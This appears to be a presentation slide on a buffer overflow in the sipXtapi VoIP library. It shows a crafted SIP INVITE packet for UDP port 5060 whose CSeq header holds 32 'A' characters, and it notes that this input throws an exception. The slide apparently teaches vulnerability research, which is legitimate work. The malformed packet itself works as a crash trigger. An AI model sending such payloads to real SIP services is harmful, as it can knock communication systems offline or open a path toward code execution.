

# sipXtapi Overflow
sipXtapi uses UDP packet sent to port 5060.

INVITE sip:user@127.0.0.1 SIP/2.0
To: <sip:192.168.7.176:5060>
Via: SIP/2.0/UDP 192.168.7.176:3277
From: “CALLER” <sip:192.168.7.176:3277>;tag=XYZZY
Call-ID: 3121192.168.7.176
CSeq: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Max-Forwards: 70
Contact: <sip:172.0.0.1:5059>

Pass 32 byte Cseq header
Throws an exception.